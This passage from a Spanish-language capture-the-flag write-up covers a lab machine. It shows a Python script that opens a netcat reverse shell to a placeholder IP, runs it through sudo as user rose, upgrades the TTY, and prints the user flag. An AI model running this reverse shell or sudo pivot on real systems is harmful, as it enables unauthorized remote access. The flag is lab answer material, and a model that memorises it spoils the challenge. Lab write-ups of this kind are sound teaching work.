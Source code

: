 ```python
#!/bin/python3

exec("import os; os.system('nc -e /bin/bash <IP> <PORT>')")
```

Ahora lo guardamos y lo ejecutamos de la siguiente forma.

Nos vamos a poner a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora con el usuario `www-data` ejecutaremos lo siguiente:

```shell
sudo -u rose python3 /home/rose/diary/diary.py
```

Y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.6] 42938
whoami
rose
```

Vemos que hemos conseguido acceso al usuario `rose` por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Vamos a leer la `flag` del usuario.

> user.txt

```
HMV{R0ses_are_R3d$}
```

## Escalate Privileges
